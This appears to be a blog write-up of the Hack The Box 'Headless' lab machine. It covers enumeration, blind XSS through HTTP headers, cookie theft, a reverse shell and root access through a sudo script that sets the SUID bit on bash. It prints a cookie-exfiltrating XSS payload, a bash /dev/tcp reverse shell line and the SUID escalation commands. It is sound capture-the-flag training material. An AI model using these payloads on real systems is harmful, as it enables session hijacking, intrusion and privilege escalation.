 ```yaml
---
title:  HTB - Headless
date: 2024-02-02 12:17:34 -0400
categories: [hackthebox , Headless]
tags: [HackTheBox, Python Werkzeug, XSS, User-Agent]
image:
  path: /assets/img/post/headless/headless.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hack the Box - Headless.
---
```


## Box Info

| Name                  | Headless         | 
| :-------------------- | ---------------: |
| Release Date          | 23 Mar, 2024     |
| OS                    | Linux            |
| Rated Difficulty      | Easy             |

## **Enumeration**

```bash
nmap -A -Pn 10.10.11.8 -oG allPorts
```

![Image](/assets/img/post/headless/1.png)

[http://10.10.11.8:5000/](http://10.10.11.8:5000/)

![Image](/assets/img/post/headless/2.png)

## Scan Directory

We dont found anything interesting...

![Image](/assets/img/post/headless/3.png)

### BurpSuite

Now go to /support

![Image](/assets/img/post/headless/5.png)

And we try to intercept this with Burpsuite

![Image](/assets/img/post/headless/4.png)

If I try some HTML injection returns the HTTP request content.

![Image](/assets/img/post/headless/attemp.png)

The HTTP `response` headers show it’s a `Werkzeug / Python server`

**Exploitation**

**Blind XSS on User-Agent**

Try to figerout a large time i found the XSS over header put in a `header-false: a<script>alert(1)</script>`

`<img src=x onerror=fetch('http://<IP>:<PORT>/'+document.cookie);>`

![Image](/assets/img/post/headless/6.png)


**Python Server**

`python -m http.server 8020`

![Image](/assets/img/post/headless/7.png)

![Image](/assets/img/post/headless/8.png)

After Exploit XSS at User-Agent, we get a reply back with the **admin cookie** at the python server

![Image](/assets/img/post/headless/9.png)


[http://10.10.11.8:5000/dashboard](http://10.10.11.8:5000/dashboard)

![Image](/assets/img/post/headless/10.png)

![Image](/assets/img/post/headless/11.png)


**Reverse Shell**

![Image](/assets/img/post/headless/12.png)

```
#!/bin/bash
/bin/bash -c 'exec bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'
#Create Reverse Shell script into a file, In my case I create .sh
```

![Image](/assets/img/post/headless/13.png)

![Image](/assets/img/post/headless/14.png)

![Image](/assets/img/post/headless/15.png)

![Image](/assets/img/post/headless/16.png)

**User Flag**

## Privilege Escalation

#### Check sudo -l

![Image](/assets/img/post/headless/17.png)

Syscheck

cat /usr/bin/syscheck:

![Image](/assets/img/post/headless/18.png)


### Exploit [initdb.sh](http://initdb.sh)

`echo "chmod u+s /bin/bash" > initdb.sh chmod +x initdb.sh`

- `chmod u+s /bin/bash`: Sets the set-user-ID (SUID) permission on `/bin/bash`, allowing users to execute the bash shell with the file owner's (typically root) privileges.
- `chmod +x initdb.sh`: This command changes the permissions of the file `initdb.sh`, making it executable (`+x`) by the file's owner, group, and others. This allows the script to be run as a program by the user.

![Image](/assets/img/post/headless/19.png)

```
sudo /usr/bin/syscheck
/bin/bash -p
```

`/bin/bash -p`: starts a bash shell with root privileges retained, due to the SUID bit making the shell run with the file owner's (root's) effective ID.

![Image](/assets/img/post/headless/20.png)

**Root Flag**